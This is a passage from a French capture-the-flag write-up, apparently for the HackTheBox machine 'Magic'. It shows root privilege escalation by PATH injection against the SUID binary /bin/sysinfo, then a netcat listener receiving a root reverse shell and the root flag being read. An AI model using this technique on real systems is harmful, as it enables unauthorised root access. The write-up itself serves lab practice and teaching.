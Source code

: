 ### Root shell using PATH injection
On execute ensuite le binaire /bin/sysinfo, qui va executer la commande **fdisk** en tant que root. Comme mon dossier **bin** contient aussi un binaire fdisk, ET qu'il est en en premier dans la liste des dossiers du PATH, alors le programme va décider de l'executer à la place du véritable binaire :

```bash
theseus@magic:~/bin$ /bin/sysinfo 
====================Hardware Info====================
H/W path           Device     Class      Description
====================================================
                              system     VMware Virtual Platform
/0                            bus        440BX Desktop Reference Platform
/0/0                          memory     86KiB BIOS
/0/1                          processor  AMD EPYC 7763 64-Core Processor
/0/1/0                        memory     16KiB L1 cache
/0/1/1                        memory     16KiB L1 cache
/0/1/2                        memory     512KiB L2 cache
/0/1/3                        memory     512KiB L2 cache
...

====================Disk Info====================

------------------------------

$ nc -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.185.
Ncat: Connection from 10.10.10.185:48804.
root@magic:~/bin# whoami
root
root@magic:~# cd /root
root@magic:/root# cat root.txt
c21a.....fa6b
```